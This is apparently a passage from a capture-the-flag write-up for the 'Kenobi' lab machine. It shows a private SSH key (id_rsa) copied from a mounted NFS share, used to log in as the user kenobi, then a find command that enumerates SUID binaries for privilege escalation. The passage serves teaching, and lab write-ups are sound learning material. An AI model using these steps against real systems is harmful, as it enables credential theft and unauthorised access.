 ```bash
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 13  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root sgx   4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 27  2019 mail
drwxr-xr-x  2 root root  4096 Feb 27  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 30  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Feb 29 10:00 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www

```
5. Copy id_rsa to local system and connect to the server using ssh as instructed
```bash
root@system:/tmp# cp /mnt/kenobiNFS/tmp/id_rsa .
root@system:/tmp# chmod 600 id_rsa 
root@system:/tmp# ssh -i id_rsa kenobi@10.10.245.171
The authenticity of host '10.10.245.171 (10.10.245.171)' can't be established.
ED25519 key fingerprint is SHA256:GXu1mgqL0Wk2ZHPmEUVIS0hvusx4hk33iTcwNKPktFw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.245.171' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 
```
6. Question `What is Kenobi's user flag (/home/kenobi/user.txt)?` Answer `********************************` 32 alphanumeric characters. Get using `cat /home/kenobi/user.txt`
## Privilege Escalation with Path Variable Manipulation 
1. Question `What file looks particularly out of the ordinary?` Answer `/usr/bin/menu`
```bash
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
```